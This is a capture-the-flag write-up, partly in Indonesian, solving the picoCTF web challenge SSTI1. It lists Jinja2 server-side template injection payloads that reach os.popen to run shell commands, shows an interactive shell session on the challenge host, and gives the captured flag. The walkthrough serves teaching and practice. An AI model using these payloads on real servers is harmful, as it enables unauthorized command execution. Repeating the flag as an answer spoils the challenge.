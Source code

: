 # soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  ![alt text](images/E_SSTI1/image.png)
  ![alt text](images/E_SSTI1/image-1.png)
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/)
    ```bash
    {{config}}

    {{self}} 
    {{_self.env}}
    {{self.env}}
    {{self._templateReference}}

    # 1
    {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}

    {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

    # 2
    {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
    ```

## python
- download [E_SSTI1.py](https://raw.githubusercontent.com/ariafatah0711/ctf_aria/refs/heads/main/picoCTF/web_exploit/solve/E_SSTI1.py) 
- ubah url nya: ```TARGET_URL = "http://rescued-float.picoctf.net:61261/"``
- lalu jalankan
  ```bash
  python3 E_SSTI1.py
  Shell> ls
  __pycache__
  app.py
  flag
  requirements.txt
  Shell> cat flag
  picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
  Shell> ^C
  ```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}